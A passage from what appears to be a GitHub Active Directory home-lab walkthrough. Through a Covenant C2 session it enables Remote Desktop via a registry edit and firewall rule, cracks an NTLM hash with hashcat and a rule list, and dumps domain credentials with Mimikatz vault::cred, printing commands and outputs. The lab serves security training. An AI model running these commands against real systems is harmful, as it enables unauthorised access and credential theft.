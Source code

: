 - By using the cmd in Covenant grunt session `powershell reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"` we can access the remote-desktop.
The command we inserted into our terminal results in enabling the remote desktop on WorkStation-01.

```bash
(singhx) > powershell reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

The operation completed successfully.
```

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/f460c20f-5cdd-46e4-8242-35955f960ecf)

- We can disable the same by using the command `powershell reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

## 12. Hash Cracking with Hashcat using Rulelist

- Copy the hash we retrieved above or navigate to Covenant's Data tab to see the available hashes.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/405cc22e-a848-4870-a47f-569c0bab9a92)

- we will use hashcat to crack the hash and with hashcat, we will use the rule list.

```bash
└─$ hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt -r OneRuleToRuleThemAll.rule

3b866477b216ed62e3f1b00b8b289070:FallOutBoy1!
```
## 13. Cracking Credential Vault with Covenant

- By utilising Mimikatz cmd `vault::cred` we can enumerate vault credentials.

```shell
(singhx) > Mimikatz vault::cred

mimikatz(powershell) # vault::cred
TargetName : TERMSRV/dc01 / <NULL>
UserName   : mayorsec\administrator
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : 
Attributes : 0

-------------------------SNIP-----------------------------

TargetName : DC-01 / <NULL>
UserName   : mayorsec\themayor
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 3 - enterprise
Flags      : 00000000
Credential : 
Attributes : 0
```
- We can locate the credentials by listing the credentials directory by using the cmd.
